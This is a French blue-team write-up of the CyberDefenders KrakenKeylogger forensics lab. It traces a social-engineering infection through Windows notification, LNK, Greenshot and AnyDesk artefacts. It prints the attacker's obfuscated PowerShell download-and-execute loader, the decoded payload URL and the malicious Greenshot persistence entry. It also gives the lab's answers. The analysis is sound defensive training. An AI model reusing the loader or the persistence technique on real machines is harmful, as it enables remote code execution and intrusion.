








# KrakenKeylogger Lab : CyberDefenders Writeup

> Analyse forensic d'un poste Windows compromis après une attaque par social engineering, reconstruction de la chaîne d'infection depuis le premier contact jusqu'à l'exfiltration de données.

| Lab | Catégorie | Difficulté | Statut |
|---|---|---|---|
| [KrakenKeylogger](https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger) | Endpoint Forensics | Medium | 7/7 ✅ |

**Tactiques MITRE couvertes** : Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Command and Control, Exfiltration

---

## Contexte

Un employé reçoit une deadline de deux jours sur un projet. Incapable de finir à temps, il cherche de l'aide en ligne. Quelqu'un lui propose le travail terminé, mais réclame 160$ pour le livrer. La demande de paiement trahit un threat actor. L'équipe forensic récupère le poste pour analyse.

Le lab fournit des artefacts KAPE d'une machine Windows : profils navigateur Edge, fichiers LNK, notifications Windows, configurations d'applications installées. Pas de dump mémoire, pas de logs Sysmon. Le périmètre est volontairement réduit aux artefacts du filesystem.

## Outils utilisés

Trois outils suffisent pour ce lab, tous listés dans l'énoncé :

- **DB Browser for SQLite** pour ouvrir les bases Edge (History, Cookies) et la base WNS (wpndatabase.db)
- **LECmd** (Eric Zimmerman) pour parser les fichiers `.lnk`
- **Timeline Explorer** pour visualiser les exports CSV

Pas besoin de Volatility, pas de Wireshark. Le challenge teste la connaissance des artefacts Windows plus que la maîtrise d'outils lourds.

---

## Investigation pas à pas

### Q1. Application de messagerie web utilisée par l'employé

Premier réflexe : ouvrir l'historique Edge dans DB Browser (`AppData\Local\Microsoft\Edge\User Data\Default\History`), table `urls`, filtrer sur les domaines de messagerie classiques.

```sql
SELECT *
FROM urls;
```

Résultat vide. Pas d'historique exploitable, probablement effacé. Même constat pour Chrome et Firefox : aucun profil présent sur la machine.

L'info est sortie d'un artefact que je n'aurais pas pensé à regarder en premier : la **base de notifications Windows**.

```
Users\OMEN\AppData\Local\Microsoft\Windows\Notifications\wpndatabase.db
```

Ce fichier SQLite stocke les notifications toast (le coin bas-droit de Windows 10/11). Quand un site web demande "Autoriser les notifications ?" et que l'utilisateur accepte, les messages passent par le Windows Notification Service et sont écrits dans cette base. Le payload XML de chaque notification contient le nom de l'app, le contenu du message, et parfois le nom de l'expéditeur.

```sql
SELECT *
FROM Notification;
```

Le payload révèle des notifications provenant de **Telegram** Web, transitant par le navigateur Edge.

**Réponse** : `telegram`



Point à retenir : `wpndatabase.db` persiste même si l'historique navigateur est effacé, et même si l'application est désinstallée. C'est un artefact sous-estimé en forensic Windows qui mérite d'être systématiquement vérifié.

### Q2. Mot de passe du fichier ZIP envoyé par l'attaquant

L'attaquant a envoyé un ZIP protégé contenant le "projet terminé". Le mot de passe se trouve dans les échanges entre l'employé et l'attaquant.

La base de notifications fournit à nouveau l'info : les fragments de conversation Telegram capturés dans les payloads XML contiennent le mot de passe en clair, partagé dans un message.

**Réponse** : `@1122d`



### Q3. Domaine de téléchargement du second stage

Le hint du challenge pointe vers `templet.lnk` dans `Users\OMEN\Downloads\project templet test`. Analyse avec LECmd :

```cmd
LECmd.exe -f "templet.lnk"
```

Le LNK pointe vers `powershell.exe` avec un argument obfusqué. Le payload complet :

```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($s){$s[$s.Length..0] -join('')};
function sDjLksFILdkrdR($s){
  $r = nvRClWiAJT $s;
  for($i = 0; $i -lt $r.Length; $i += 2){
    try{$out += nvRClWiAJT $r.Substring($i,2)}
    catch{$out += $r.Substring($i,1)}
  };$out};
$url = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$path = $env:APPDATA + '\' + ($url -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$data = wget $url -UseBasicParsing;
[IO.File]::WriteAllText($path, $data);
& $path;
sleep 3;
rm $path;
```

L'obfuscation repose sur deux fonctions imbriquées : `nvRClWiAJT` inverse une chaîne, `sDjLksFILdkrdR` inverse la chaîne entière puis inverse chaque paire de deux caractères.

Pour décoder sans rien exécuter de dangereux, deux options. La plus propre : copier uniquement les fonctions de déobfuscation dans une session PowerShell isolée et les appliquer à la string encodée. La plus rapide : CyberChef avec Reverse + split par paires + reverse de chaque paire.

Le décodage donne :

```
https://masherofmasters.cyou/chin/se1.hta
```

Le script télécharge `se1.hta` dans `%APPDATA%`, l'exécute via `mshta.exe` (HTA = HTML Application, exécutable nativement sous Windows), attend 3 secondes, puis supprime le fichier. Le `rm` final explique pourquoi le fichier n'est plus sur le disque.

**Réponse** : `masherofmasters.cyou`





`.cyou` est un TLD fréquemment abusé pour son faible coût d'enregistrement.

### Q4. Commande injectée via une LOLAPP installée

La question introduit le concept de **LOLAPPS** (Living Off The Land Applications), documenté sur [lolapps-project.github.io](https://lolapps-project.github.io/). Le principe est le même que LOLBins mais pour des applications complètes : détourner un logiciel légitime déjà installé pour exécuter des actions malveillantes.

La liste LOLAPPS recense les applications avec des fonctionnalités abusables : Greenshot, Notepad++, KeePass, VS Code, Windows Terminal, WinSCP, entre autres. Chacune a une fiche avec les techniques de persistence documentées.

Le coupable est **Greenshot**, un outil de capture d'écran qui tourne en systray au démarrage.

Le fichier `greenshot.ini` (dans `AppData\Roaming\Greenshot\`) contient un plugin `ExternalCommand` qui permet de définir des commandes externes lancées après une capture. L'attaquant a ajouté une entrée :

```ini
Commands=MS Paint,jlhgfjhdflghjhuhuh

Commandline.MS Paint=C:\Windows\System32\mspaint.exe
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe

Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

Le nom aléatoire `jlhgfjhdflghjhuhuh` à côté de `MS Paint` est un IOC en soi. Le reste de la config le confirme : la commande lance `cmd.exe` qui exécute `templet.lnk` depuis le dossier Temp.

**Réponse** : `jlhgfjhdflghjhuhuh`




La technique est décrite dans la fiche LOLAPPS de Greenshot sous T1546 (Event Triggered Execution). Greenshot démarre avec Windows, la commande malveillante s'exécute à chaque capture d'écran ou au chargement du plugin.

### Q5. Chemin complet du fichier malveillant de persistence

La réponse est directe dans la config Greenshot analysée à la question précédente :

```ini
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

Le second stage (`se1.hta`) a copié `templet.lnk` dans le dossier Temp de l'utilisateur avant de modifier `greenshot.ini`. Ça crée une boucle de persistance : Greenshot lance le LNK, le LNK lance PowerShell, PowerShell télécharge et exécute le stage 2, qui remet tout en place si nécessaire.

**Réponse** : `C:\Users\OMEN\AppData\Local\Temp\templet.lnk`

### Q6. Application utilisée pour l'exfiltration de données

Le technique MITRE T1219 (Remote Access Tools) couvre l'utilisation d'outils d'accès distant légitimes comme canal C2 : TeamViewer, AnyDesk, ConnectWise, etc. Ces outils sont signés, tolérés par les pare-feu, et rarement bloqués par les EDR.

L'investigation passe par les artefacts classiques d'exécution : Prefetch pour confirmer quel RAT a tourné, les dossiers `Program Files` et `AppData` pour trouver les traces d'installation, et les logs de l'application elle-même pour les connexions sortantes.

**AnyDesk** laisse ses traces dans `AppData\Roaming\AnyDesk\`, avec des logs de connexion horodatés qui incluent les IDs de session distante.

**Réponse** : `Anydesk`



### Q7. Adresse IP de l'attaquant

Le log AnyDesk `ad.trace` enregistrent les connexions entrantes avec l'adresse IP distante, l'ID AnyDesk du pair, et les timestamps.

**Réponse** : `77.232.122.31`



---

## Chaîne d'attaque reconstituée

```
Employé cherche de l'aide en ligne
       │
       ▼
Contact via Telegram Web (Edge)
  L'attaquant propose de finir le projet
  puis réclame 160$
       │
       ▼
Envoi d'un ZIP protégé (mdp: @1122d)
  Contient "project templet test"
       │
       ▼
Ouverture de templet.lnk par la victime
  [T1204 - User Execution]
       │
       ▼
STAGE 1 — LNK → PowerShell
  -ExecutionPolicy Unrestricted
  Déobfuscation par double inversion de string
  Télécharge se1.hta depuis masherofmasters.cyou
  [T1059.001 - PowerShell]
       │
       ▼
STAGE 2 — se1.hta exécuté via mshta.exe
       │
       ├──► Copie templet.lnk dans AppData\Local\Temp\
       ├──► Modifie greenshot.ini
       │       └──► Ajoute la commande jlhgfjhdflghjhuhuh
       │            cmd.exe /c templet.lnk
       │            [T1546 - Event Triggered Execution]
       ├──► Auto-suppression (rm)
       └──► Installation/utilisation d'AnyDesk
               └──► Exfiltration via accès distant
                    depuis 77.232.122.31
                    [T1219 - Remote Access Tools]
```

---

## Ce que j'ai retenu

La base de notifications Windows (`wpndatabase.db`) est l'artefact qui a débloqué ce challenge. L'historique navigateur était vide, les profils Chrome et Firefox absents. Sans cette base, la Q1 n'avait pas de réponse évidente. C'est un artefact que je n'avais jamais exploité avant, et il mérite une place systématique dans un triage KAPE.

Le site [lolapps-project.github.io](https://lolapps-project.github.io/) liste les techniques par application, et j'ai bien fait de commencer par inventorier les applications installées sur la machine avant de deviner laquelle était exploitée, ce fut une bonne démarche. Il aurait pu aussi etre possible d'utiliser Autopsy pour analyser tous les Applications installées. La méthode correcte : lister les programmes présents, croiser avec la liste LOLAPPS, puis inspecter les fichiers de config de chaque match.

La déobfuscation du payload PowerShell dans le LNK est un bon exercice. La règle à respecter absolument : ne jamais exécuter le script complet, isoler uniquement les fonctions de décodage. La méthode la plus sûre reste CyberChef, qui ne peut rien exécuter par accident.

Le concept LOLAPPS est récent et moins connu que LOLBAS. La différence : LOLBAS couvre les binaires et scripts natifs Windows (certutil, mshta, regsvr32), LOLAPPS couvre les applications tierces installées. Greenshot, Notepad++, KeePass, VS Code ont tous des mécanismes de personnalisation (plugins, commandes externes, tasks, profils) qui deviennent des vecteurs de persistence quand un attaquant les modifie.

Le `.cyou` TLD revient régulièrement dans les campagnes récentes. Coût d'enregistrement faible, pas de vérification d'identité, résistant au takedown. Même logique que `.xyz`, `.top`, `.buzz` les années précédentes.

Pour la chaîne complète : le social engineering initial passe par Telegram, un canal que beaucoup d'organisations ne surveillent pas. L'attaquant n'envoie pas un phishing générique, il attend que la victime vienne à lui avec un besoin réel. Le prétexte est crédible, le fichier est attendu.

## Références

- [LOLAPPS Project](https://lolapps-project.github.io/) - Living Off The Land Applications
- [LOLAPPS - Greenshot](https://lolapps-project.github.io/lolapps/Desktop/greenshot/) - Fiche persistence Greenshot
- [MITRE ATT&CK T1219](https://attack.mitre.org/techniques/T1219/) - Remote Access Tools
- [MITRE ATT&CK T1546](https://attack.mitre.org/techniques/T1546/) - Event Triggered Execution
- [MITRE ATT&CK T1059.001](https://attack.mitre.org/techniques/T1059/001/) - PowerShell
- [MITRE ATT&CK T1204](https://attack.mitre.org/techniques/T1204/) - User Execution
- [CyberChef](https://gchq.github.io/CyberChef/) - Décodage de payloads
- [LECmd](https://github.com/EricZimmerman/LECmd) - Eric Zimmerman, LNK Explorer
